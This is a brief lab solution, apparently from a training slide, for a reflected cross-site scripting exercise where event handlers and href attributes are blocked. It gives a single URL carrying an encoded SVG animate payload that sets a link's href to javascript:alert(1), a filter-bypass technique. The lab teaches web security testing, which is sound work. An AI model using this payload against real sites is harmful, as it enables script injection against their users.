

# Problem 3: Reflected XSS with event handlers and href attributes blocked
Visit the following URL, replacing your-lab-id with your lab ID:    https://your-lab-id.web-security     academy.net/?search=%3Csvg%3E%3Ca%3E%3Canimate+attributeName%3Dhref+values%3Djavascript%3Aalert(1)+%2F%3E%3Ctext+x%3D20+y%3D20%3EClick%20me%3C%2Ftext%3E%3C%2Fa%3E